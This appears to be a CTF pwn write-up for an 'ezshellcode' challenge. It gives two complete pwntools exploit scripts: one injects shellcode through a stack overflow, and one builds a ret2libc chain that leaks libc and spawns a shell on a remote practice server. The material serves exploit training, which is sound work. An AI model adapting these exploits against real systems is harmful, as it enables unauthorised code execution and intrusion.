 

### ezshellcode

:star2:exp:

```
from pwn import *
context(os='linux',arch='i386',log_level='debug')
elf = ELF("./pwn")
# io = remote("node4.buuoj.cn",26890)
io= process("./pwn")
io.recvuntil(b"What's this:")
shell_adr = int(io.recv(10)[2:],16)
print(hex(shell_adr))
shellcode = asm(shellcraft.sh())
payload = shellcode
payload = payload.ljust(140,b's')
payload += p32(shell_adr)
io.sendline(payload)
io.interactive()
```

:star:ret2libc打法：

```
from pwn import *
import sgtlibc
context(os='linux',arch='i386',log_level='debug')
elf = ELF("./pwn")
io = remote("node4.buuoj.cn",26890)

write_plt = elf.plt['write']
write_got = elf.got['write']
main_adr = 0x804847B
payload = b's'*140 + p32(write_plt) + p32(main_adr) + p32(1) + p32(write_got) + p32(4)
io.sendline(payload)
write_adr = u32(io.recv(4))
libc = sgtlibc.Searcher("write",write_adr)
system_adr = libc.get_address(sgtlibc.s_system)
shell_adr = libc.get_address(sgtlibc.s_binsh)
payload2 = b's'*140 + p32(system_adr) + p32(0) + p32(shell_adr)
io.sendline(payload2)
io.interactive()
```

## ret2syscall

## ret2libc

#### patchlibc

将libc修改为旧版本并且复制libc到本目录，方便脚本查找函数
